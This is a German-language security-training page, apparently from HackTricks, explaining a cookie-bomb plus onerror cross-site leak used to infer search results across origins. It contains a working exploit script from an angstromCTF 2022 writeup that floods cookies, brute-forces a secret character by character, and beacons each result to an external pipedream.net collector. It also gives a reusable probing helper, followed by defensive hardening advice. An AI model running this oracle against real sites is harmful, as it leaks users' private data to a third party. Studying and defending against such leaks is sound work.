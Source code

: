 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

Diese Technik kombiniert:
- Cookie bombing: das Füllen des Browsers des Opfers mit vielen/großen Cookies für die Ziel-Origins, sodass nachfolgende Requests Server-/Anforderungsgrenzen erreichen (Größe der Request-Header, URL-Länge bei Redirects usw.).
- Error-event oracle: Ausfragen eines Cross-Origin-Endpunkts mit einem <script> (oder anderem subresource) und Unterscheiden der Zustände mittels onload vs onerror.

High level idea
- Finde einen Ziel-Endpunkt, dessen Verhalten sich für zwei zu testende Zustände unterscheidet (z. B. Suche “hit” vs “miss”).
- Stelle sicher, dass der “hit”-Pfad eine starke Redirect-Kette oder eine lange URL auslöst, während der “miss”-Pfad kurz bleibt. Blähe Request-Header mit vielen Cookies auf, sodass nur der “hit”-Pfad dazu führt, dass der Server mit einem HTTP-Fehler (z. B. 431/414/400) fehlschlägt. Der Fehler kippt das onerror-Event und wird so zu einer Oracle für XS-Search.

Wann funktioniert das
- Du kannst den Browser des Opfers dazu bringen, Cookies an das Ziel zu senden (z. B. sind die Cookies SameSite=None oder du kannst sie in einem First-Party-Kontext via window.open setzen).
- Es gibt eine App-Funktion, die du missbrauchen kannst, um beliebige Cookies zu setzen (z. B. “save preference”-Endpunkte, die kontrollierte Eingaben in Set-Cookie verwandeln) oder um Post-Auth-Redirects zu erzeugen, die vom Angreifer kontrollierte Daten in die URL einbauen.
- Der Server reagiert in den beiden Zuständen unterschiedlich und bei aufgeblähten Headern/URL überschreitet ein Zustand ein Limit und liefert eine Fehlerantwort, die onerror auslöst.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large wird häufig zurückgegeben, wenn Cookies Request-Header aufblähen; 414 URI Too Long oder ein server-spezifisches 400 können für lange Request-Ziele zurückgegeben werden. Alle diese führen zu einem fehlgeschlagenen subresource-Load und lösen onerror aus. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
Das folgende Script (aus einem öffentlichen Writeup) missbraucht eine Funktion, die es dem Angreifer erlaubt, beliebige Cookies einzufügen, und lädt dann einen cross-origin search-endpunkt als Script. Wenn die Query korrekt ist, führt der Server einen Redirect aus, der zusammen mit der Cookie-Aufblähung die Serverlimits überschreitet und einen Fehlerstatus zurückgibt, sodass script.onerror ausgelöst wird; andernfalls passiert nichts.
```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
<input id="f" /><input name="search" value="a" />
</form>
<script>
const $ = document.querySelector.bind(document)
const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
let i = 0
const stuff = async (len = 3500) => {
let name = Math.random()
$("form").target = name
let w = window.open("", name)
$("#f").value = "_".repeat(len)
$("#f").name = i++
$("form").submit()
await sleep(100)
}
const isError = async (url) => {
return new Promise((r) => {
let script = document.createElement("script")
script.src = url
script.onload = () => r(false)
script.onerror = () => r(true)
document.head.appendChild(script)
})
}
const search = (query) => {
return isError(
"https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
)
}
const alphabet =
"etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
const url = "//en4u1nbmyeahu.x.pipedream.net/"
let known = "actf{"
window.onload = async () => {
navigator.sendBeacon(url + "?load")
await Promise.all([stuff(), stuff(), stuff(), stuff()])
await stuff(1600)
navigator.sendBeacon(url + "?go")
while (true) {
for (let c of alphabet) {
let query = known + c
if (await search(query)) {
navigator.sendBeacon(url, query)
known += c
break
}
}
}
}
</script>
```
Warum das Popup (window.open)?
- Moderne Browser blockieren zunehmend Drittanbieter-Cookies. Das Öffnen eines Top-Level-Fensters zum Ziel macht Cookies zu First‑Party, sodass Set-Cookie-Antworten vom Ziel haften bleiben und der cookie-bomb Schritt selbst bei Einschränkungen für Drittanbieter-Cookies möglich wird.

Generic probing helper
Wenn Sie bereits eine Möglichkeit haben, viele Cookies auf der Ziel-Origin (Erstanbieter) zu setzen, können Sie dieses minimale Oracle gegen jeden Endpoint wiederverwenden, dessen Erfolg/Fehlschlag zu unterschiedlichen Netzwerk-Ergebnissen (Status/MIME/Redirect) führt:
```js
function probeError(url) {
return new Promise((resolve) => {
const s = document.createElement('script');
s.src = url;
s.onload = () => resolve(false);  // loaded successfully
s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
document.head.appendChild(s);
});
}
```
Tipps zum Aufbau des Orakels
- Zwinge den „positiven“ Zustand schwerer: hänge eine zusätzliche Weiterleitung nur dann an, wenn das Prädikat wahr ist, oder lasse die Redirect-URL ungebundene Benutzereingaben widerspiegeln, sodass sie mit dem geratenen Präfix wächst.
- Header aufblasen: wiederhole cookie bombing, bis auf dem „schweren“ Pfad ein konsistenter Fehler beobachtet wird. Server begrenzen üblicherweise die Header-Größe und schlagen früher fehl, wenn viele Cookies vorhanden sind.
- Stabilisieren: führe mehrere parallele Set-Cookie-Operationen aus und probe wiederholt, um Timing- und Caching-Rauschen zu mitteln.

Verwandte XS-Search-Tricks
- URL-längenbasierte Orakel (keine Cookies nötig) können kombiniert oder stattdessen verwendet werden, wenn du ein sehr langes Anfrageziel erzwingen kannst:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Abwehrmaßnahmen und Härtung
- Mache Erfolgs-/Fehler-Antworten nicht unterscheidbar:
- Vermeide bedingte Weiterleitungen oder große Unterschiede in der Antwortgröße zwischen Zuständen. Gib denselben Status, denselben Content-Type und eine ähnliche Body-Länge unabhängig vom Zustand zurück.
- Blockiere cross-site Subresource-Probes:
- SameSite-Cookies: Setze sensitive Cookies auf SameSite=Lax oder Strict, damit Subresource-Anfragen wie <script src> diese nicht mitsenden; bevorzuge Strict für Auth-Tokens, wenn möglich.
- Fetch Metadata: Erzwinge eine Resource Isolation Policy, um cross-site Subresource-Loads abzulehnen (z. B. wenn Sec-Fetch-Site != same-origin/same-site).
- Cross-Origin-Resource-Policy (CORP): Setze CORP: same-origin (oder mindestens same-site) für Endpunkte, die nicht als cross-origin Subresources eingebettet werden sollen.
- X-Content-Type-Options: nosniff und korrekter Content-Type für JSON/HTML-Endpunkte, um Load-as-script-Quirks zu vermeiden.
- Reduziere Header-/URL-Amplifikation:
- Begrenze Anzahl/Größe gesetzter Cookies; saniere Features, die beliebige Formularfelder in Set-Cookie verwandeln.
- Normalisiere oder kürze reflektierte Daten in Redirects; vermeide das Einbetten angreiferkontrollierter langer Strings in Location-URLs.
- Halte Server-Limits konsistent und lasse sie einheitlich fehlschlagen (vermeide spezielle Fehlerseiten nur für einen Zweig).

Hinweise
- Diese Angriffsklasse wird allgemein als „Error Events“ XS-Leaks diskutiert. Der cookie-bomb-Schritt ist nur ein praktischer Weg, um nur einen Zweig über Server-Limits zu drücken und so ein zuverlässiges boolesches Orakel zu erzeugen.



## Referenzen
- XS-Leaks: Error Events (onerror/onload als Orakel): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (häufig bei vielen Cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
{{#include ../../banners/hacktricks-training.md}}
